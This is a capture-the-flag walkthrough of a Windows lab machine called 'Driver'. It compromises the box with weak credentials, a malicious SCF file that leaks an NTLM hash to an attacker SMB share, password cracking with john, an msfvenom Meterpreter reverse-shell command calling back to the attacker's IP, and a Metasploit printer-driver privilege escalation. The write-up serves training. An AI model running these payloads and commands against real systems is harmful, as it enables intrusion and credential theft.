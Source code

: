 # Driver

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.238
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 09:26 EDT
Nmap scan report for 10.129.95.238
Host is up (0.015s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman
```

Interestingly, WinRM is open.&#x20;

### SCF Exploit --> Creds

Port 80 requires credentials to access.

<figure><img src="../../../.gitbook/assets/image (93) (1).png" alt=""><figcaption></figcaption></figure>

I tested weak credentials of `admin:admin`, and it worked. The page is some type of printer service panel.

<figure><img src="../../../.gitbook/assets/image (25) (7).png" alt=""><figcaption></figcaption></figure>

The only working part is the Firmware Updates, which redirects us to this page:

<figure><img src="../../../.gitbook/assets/image (6) (6) (3).png" alt=""><figcaption></figcaption></figure>

This would take any file and upload them to the file share, and a user would open it. Because it uploads to SMB, we can create a malicious SCF File to exploit this.

{% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" %}

This uses the SCF file to access our machine via SMB, and `responder` would capture the hash. Create an SCF file like so and start `responder`.&#x20;

```
[Shell]
Command=2
IconFile=\\10.10.14.13\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Once uploaded, `responder` would capture a hash:

<figure><img src="../../../.gitbook/assets/image (5) (9) (2).png" alt=""><figcaption></figcaption></figure>

This can be cracked easily:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash             
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)     
1g 0:00:00:00 DONE (2023-05-06 09:34) 100.0g/s 3276Kp/s 3276Kc/s 3276KC/s !!!!!!..eatme1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

We can then log in using `evil-winrm` since port 5985 is open.

<figure><img src="../../../.gitbook/assets/image (16) (8).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Printer Driver Exploit

I ran a WinPEAS scan to enumerate for me. While reading the output, we can see that there's Powershell history files:

<figure><img src="../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

Here's the file content:

```
*Evil-WinRM* PS C:\Users\tony\Documents> type C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'
```

This, combined with the box name was a hint that we had to expoloit this specific driver somehow. I could only find Metasploit exploits, so let's use that. First we have to generate a Meterpreter reverse shell.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.13 LPORT=4444 -f exe -o meter.exe
```

Then, we need to upload it and start `exploit/multi/handler`.&#x20;

<figure><img src="../../../.gitbook/assets/image (611).png" alt=""><figcaption></figcaption></figure>

Then, we need to first run `migrate -N explorer.exe` , then `background` this and use the `exploit/windows/local/ricoh_driver_privesc` module. Then, run the following:

```
set payload windows/x64/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 5555
exploit
```

Afterwards, we would get a shell as the SYSTEM user.

<figure><img src="../../../.gitbook/assets/image (568).png" alt=""><figcaption></figcaption></figure>

Rooted!
